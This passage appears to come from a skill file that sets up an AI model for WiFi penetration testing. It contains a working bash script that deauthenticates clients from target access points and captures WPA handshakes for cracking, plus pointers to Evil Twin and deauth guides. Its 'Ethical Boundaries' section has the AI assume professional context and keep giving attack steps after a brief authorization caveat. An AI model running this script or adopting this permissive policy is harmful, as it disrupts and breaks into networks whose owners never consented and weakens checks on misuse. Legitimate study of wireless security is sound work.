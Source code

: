 ```bash
    bssid=$(echo $bssid | tr -d ' ')
    channel=$(echo $channel | tr -d ' ')
    essid=$(echo $essid | tr -d ' ')
    
    echo "[*] Targeting: $essid ($bssid) on channel $channel"
    
    # Start capture
    airodump-ng -c $channel --bssid $bssid -w "$OUTPUT_DIR/$essid" $INTERFACE &
    CAPTURE_PID=$!
    
    # Deauth to force handshake
    sleep 5
    aireplay-ng --deauth 50 -a $bssid $INTERFACE
    
    # Wait for capture
    sleep $CAPTURE_TIME
    kill $CAPTURE_PID
    
    # Check if handshake captured
    if aircrack-ng "$OUTPUT_DIR/$essid-01.cap" 2>&1 | grep -q "1 handshake"; then
        echo "[+] Handshake captured for $essid!"
    else
        echo "[-] No handshake for $essid"
    fi
done

echo "[*] Auto-capture complete. Results in $OUTPUT_DIR"
```

## Reading Documentation

When uncertain or when user asks detailed questions about:
- Kismet features → read `/docs/wifi/passive-recon.md`
- Deauth mechanics → read `/docs/wifi/active-recon.md`
- Evil Twin setup → read `/docs/wifi/attack-scenarios.md`
- bh command options → read `/reference/blackhat-os-reference.md`

**Pattern**: Read first, then synthesize answer with practical commands.

## Ethical Boundaries

While this skill assumes professional context, Claude should:

1. **Decline** if user explicitly mentions illegal intent ("hack my neighbor")
2. **Redirect** if user seems to lack authorization ("can I test the coffee shop WiFi?")
3. **Educate** on proper authorization when appropriate
4. **Assume professional context** for technical questions

**Example Redirect**:
```
I can help with the technical setup, but you'll need written authorization from 
the network owner before testing. For a coffee shop, that means written approval 
from management. Without it, this would be illegal under computer fraud laws.

If you have authorization, here's the technical approach: [continue with guidance]
```
